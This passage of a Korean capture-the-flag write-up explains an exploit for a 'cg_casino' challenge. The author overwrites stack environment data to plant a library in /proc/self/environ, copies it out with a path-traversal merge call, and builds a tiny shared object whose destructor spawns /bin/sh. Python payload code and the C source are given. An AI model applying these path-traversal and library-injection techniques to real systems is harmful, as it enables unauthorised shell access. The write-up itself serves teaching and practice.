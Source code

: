 실제로 stack의 끝에 있는 환경변수까지 값을 덮어보니 다음과 같이 `/proc/self/environ` 파일이 변경된 것을 확인할 수 있었다.
``` bash
cg_casino@3197b44a521a:~/voucher$ cat /proc/1241/environ
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
...
```
따라서 이런 식으로 stack의 값을 조작해서 `/proc/self/environ`에 파일의 형태로 남길 수 있다.

### Stack Overflow & File Copy
`/proc/self/environ`에 libc 데이터를 쓰고 그것을 `/home/cg_casino/voucher`로 가져오기 위한 조건은 총 3개이다.
- main의 new가 `/home/cg_casino/voucher`에 저장할 파일명일 것
- main의 old가 길이가 32이고 `/proc/self/environ` 파일을 가리킬 것
- stack 끝의 환경변수가 저장된 공간에 libc 데이터가 쓰여질 것

따라서 다음과 같이 payload를 구성했다.
``` python
    payload = b"mylib.so\x00"
    payload += b"\x00" * (env - buf - len(payload))
    payload += lib_data
    payload += b"\x00" * (3432 - (len(payload)))
    put_voucher(s, payload)

    merge_voucher(s, b"../../../../../proc/self/environ")
```
한편 이 과정에서 `read_401108()`를 이용해서 입력을 받기 때문에 libc에 `\x0a`가 있으면 데이터가 짤릴 위험이 있다.

실제로도 `\x0a`가 있어서 혹시나 하는 마음에 `\x0b`로 바꿔봤는데 다행히 libc가 잘 작동했다.
``` python
    with open("./mylib.so", "rb") as f:
        lib_data = f.read()
    lib_data = lib_data.replace(b"\x0a", b"\x0b")
```
따라서 위 payload를 추가해주어야 한다.

### Small Libc
여기에서 문제가 하나 더 있는데 환경변수 영역도 한도가 있기 때문에 `merge voucher`로 가져올 수 있는 데이터 길이가 제한되어있다.
``` bash
root@3197b44a521a:/home/cg_casino/voucher# ls -al
total 16
drwxrwx-wx 1 root      root      4096 Aug  1 05:24 .
drwxr-xr-x 1 root      root      4096 Jul 31 08:08 ..
-rw------- 1 cg_casino cg_casino 3432 Aug  1 05:23 mylib.so
```
그래서 3432보다 작은 libc가 필요한데, 다음 소스코드를 `Ubunut 16.04`에서 컴파일해서 사이즈가 작은 libc를 만들 수 있었다.
``` c
// gcc -w -znorelro -s -fPIC -shared -nostdlib -o mylib.so mylib.c
__attribute__((destructor))
void on_unload() {
	system("/bin/sh");
}
```
`Ubuntu 22.04`에서는 같은 컴파일 옵션을 줘도 사이즈가 꽤 큰데, 컴파일러 버전에 따라서도 이렇게 차이가 심할 수 있다니 알아둬야겠다.
``` bash
➜  ls -al | grep mylib_from
-rwxr-xr-x 1 user user    2632 Aug  1 08:28 mylib_from1604.so
-rwxr-xr-x 1 user user   10160 Aug  1 14:40 mylib_from2204.so
```
